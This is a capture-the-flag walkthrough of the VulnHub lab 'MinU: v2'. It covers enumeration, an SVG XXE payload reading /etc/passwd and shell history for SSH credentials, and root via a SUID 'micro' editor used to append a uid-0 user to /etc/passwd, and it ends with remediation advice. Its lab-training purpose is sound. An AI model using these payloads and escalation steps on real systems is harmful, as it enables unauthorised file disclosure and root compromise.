




# MinU: v2 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.101 (host-only) |
| **Difficulty** | Beginner |
| **OS** | Linux (Alpine/BusyBox — `/bin/ash`) |
| **Root Flag** | Captured (value in screenshot) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/minu-v2,333/) |

## Attack Summary

nmap (port 3306/HTTP) → dirb SVG upload page → SVG XXE to read `/etc/passwd` and `/.ash_history` → credentials `employee:superultrapass3` → SSH → SUID `/usr/bin/micro` → edit `/etc/passwd` → add root user → root

## Methodology

1. Network discovery
2. Directory enumeration — SVG upload endpoint on unusual port
3. SVG XXE payload to read internal files
4. SSH login with credentials from shell history
5. Privilege escalation via SUID `micro` editor

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.101
```

Key findings:
- Port 22: SSH
- Port 3306: HTTP service (not MySQL — unusual)


---

## Step 2: Web Enumeration

```bash
dirb http://192.168.1.101:3306 -X .html
```

Finds an upload page that accepts only `.svg` files.

---

## Step 3: SVG XXE — Read Internal Files

Create an SVG file with an XXE payload to read `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg xmlns="http://www.w3.org/2000/svg">
  <text>&xxe;</text>
</svg>
```

Upload the file and view the page source to read the file contents.



Users found: `employee`, `chrony`, `nobody`.

Now modify the payload to read shell history:

```xml
<!ENTITY xxe SYSTEM "file:///.ash_history">
```

Upload again and read the output — contains SSH credentials:

```
ssh employee@192.168.1.101
# password visible in history: superultrapass3
```



---

## Step 4: SSH Login

```bash
ssh employee@192.168.1.101
# Password: superultrapass3
```

---

## Step 5: Privilege Escalation — SUID `micro` Editor

Find SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Result: `/usr/bin/micro` has the SUID bit set — the `micro` terminal editor runs as root.



Use `micro` to edit `/etc/passwd` directly:

```bash
cat /etc/passwd | /usr/bin/micro
```

Generate a new password hash:

```bash
openssl passwd -1 -salt user3 pass123
```

Add a new root-level user line to `/etc/passwd` (the shell must be `/bin/ash`):

```
test:$1$user3$<hash>:0:0:root:/root:/bin/ash
```

Save the file inside micro (`Ctrl+S`), then switch to the new user:

```bash
su test
# Password: pass123
id
# uid=0(root) gid=0(root)
cd /root && cat flag.txt
```



---

## Lessons Learned

1. **SVG XXE** — SVG files are XML; if an upload endpoint parses them server-side, external entity injection reads arbitrary files
2. **Credentials in shell history** — `~/.ash_history` (and `~/.bash_history`) contain all previous commands including plaintext passwords
3. **SUID on text editors** — `micro`, `vim`, `nano` with SUID are immediate root — use `find / -perm -u=s` in post-exploitation
4. **Weak service hardening** — HTTP on port 3306 misleads; always check non-standard ports

## Remediation

| Vulnerability | Fix |
|---|---|
| SVG XXE | Disable external entity processing in the XML parser (`LIBXML_NOENT` off) |
| History file exposure | Clear `HISTFILE`; restrict file read permissions on history files |
| SUID `micro` editor | Remove SUID: `chmod u-s /usr/bin/micro` |
| Writable `/etc/passwd` via root process | Audit file permissions regularly with CIS benchmarks |
